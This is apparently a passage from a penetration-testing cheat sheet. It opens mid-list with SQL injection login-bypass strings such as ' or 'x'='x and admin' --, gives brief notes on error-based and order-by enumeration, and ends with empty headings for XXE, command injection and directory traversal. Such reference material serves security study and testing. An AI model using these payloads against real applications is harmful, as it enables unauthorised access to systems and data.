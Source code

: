     `"&"`

    `"^"`

    `"*"`

    `" or ""-"`

    `" or "" "`

    `" or ""&"`

    `" or ""^"`

    `" or ""*"`

    `or true--`

    `" or true--`

    `' or true--`

    `") or true--`

    `') or true--`

    `' or 'x'='x`
    
    `') or ('x')=('x`

    `')) or (('x'))=(('x`

    `" or "x"="x`

    `") or ("x")=("x`

    `")) or (("x"))=(("x`

    - known Username:

        `admin’ - -`

        `admin’) - -`

- Using error-bases DB enumeration

    - Add the tick `'`

    - Enumerate columns

- Using order by: <https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html>

### XML External Entity (XXE)

### URL vulnerability

### OS command Injection

### Directory traversal

### Dotdotpwn tool
